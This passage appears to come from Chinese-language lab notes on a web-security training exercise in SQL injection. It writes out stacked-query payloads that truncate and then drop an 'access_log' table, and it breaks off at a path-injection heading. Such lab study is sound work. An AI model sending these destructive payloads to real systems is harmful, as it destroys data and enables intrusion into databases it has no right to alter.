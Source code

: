 增加删除语句

`*'; TRUNCATE TABLE access_log; Select * from access_log where '1'='1`

后再次查询`*`，已经没有记录了

![](../images/2024-11-06-09-39-58-image.png)

看来只能删除表了（不合理！）
新版本还是这样（）必须删表太不合理了！

`*'; drop TABLE access_log; Select * from access_log where '1'='1`

这样才能过

![](../images/2024-11-06-09-41-13-image.png)


### 4.4 简单路径注入

这里的题，但感觉很简单，放到这里写了
